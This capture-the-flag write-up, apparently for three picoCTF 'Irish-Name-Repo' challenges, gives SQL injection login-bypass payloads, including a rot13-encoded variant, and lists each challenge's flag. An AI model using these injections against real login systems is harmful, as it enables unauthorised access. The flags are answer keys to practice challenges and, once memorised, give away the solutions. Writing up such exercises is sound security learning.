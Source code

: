 # Irish-Name-Repo 1

Login: `'or'1'='1`

Password: `'or'1'='1`

Flag: `picoCTF{s0m3_SQL_93e76603}`

# Irish-Name-Repo 2

Login: `admin';--`

Password: (empty)

Flag: `picoCTF{m0R3_SQL_plz_3693681d}`

# Irish-Name-Repo 3

When we set `debug` parameter to `1` and send any password, we can see that it's `rot13` "encrypted" before appending to query.

Payload: `'or'1'='1`

Password: `'be'1'='1`

Flag: `picoCTF{3v3n_m0r3_SQL_d78e3333}`